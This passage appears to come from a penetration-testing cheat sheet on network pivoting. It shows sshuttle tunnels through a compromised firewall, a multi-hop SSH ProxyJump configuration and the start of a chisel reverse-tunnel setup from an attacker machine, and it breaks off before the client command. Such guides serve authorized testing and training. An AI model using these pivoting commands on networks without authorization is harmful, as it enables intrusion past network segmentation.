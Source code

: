 Let's say we are in an intranet and we have compromised a firewall that gives us access to the management net (fw.example.mgmt - ips 192.168.20.35 and 192.168.30.253 as the management ip), by using sshuttle we can create a "vpn" to talk directly to those servers, for that, we use:

```console
sshuttle ceso@192.168.20.35 192.168.30.0/24
```

#### Multi-hops

Now imagine that after we broke up into the management net after some some enumeration, we ended to compromise a machine that has also access to a production environment (foreman.example.mgmt - ips 192.168.30.40 and 192.168.25.87), we can take advantage of sshuttle + ProxyCommand of ssh to create a "vpn" through this multiple hops, so...putting it down, this will be kind of as follow (the diagram is extremly simplified and just for the sake of illustrate this visually, so it doesn't intend to provide a 100% precise network diagram):

{{< image src="/images/cheatsheet/multiple-hop-sshuttle.png" position="center" style="border-radius: 8px;" >}}

To have that working, is needed to put the next conf in your ssh conf file (normally ~/.ssh/config. It's based on the example above, but is easy to extrapolate to different scenarios):

```console
Host fw.example.mgmt
  Hostname 192.168.20.35
  User userOnFw
  IdentityFile ~/.ssh/priv_key_fw
Host foreman.example.mgmt
  Hostname 192.168.30.40
  User root
  ProxyJump fw.example.mgmt
  IdentityFile ~/.ssh/priv_key_internal
```

And now to setup the "multiple hop vpn", run:

```console
sshuttle -r foreman.example.mgmt -v 192.168.25.0/24 &

Later on is possible to connect from the local machine:
ssh foo@192.168.25.74
```

### Chisel with remote port forward from machine in the net

On attacker machine I start up a chisel reverse server on port 9050 (imagine this machine IP is 192.168.90.90)
```console
server -p 9050 --reverse
```

On compromised machine in the network I start a client connection against the server running in the attacker.
The command below will be forwarding the traffic from port 8081 in the machine 172.16.42.90 throughout the compromised machine (via localhost in port 5050) to the attacker.
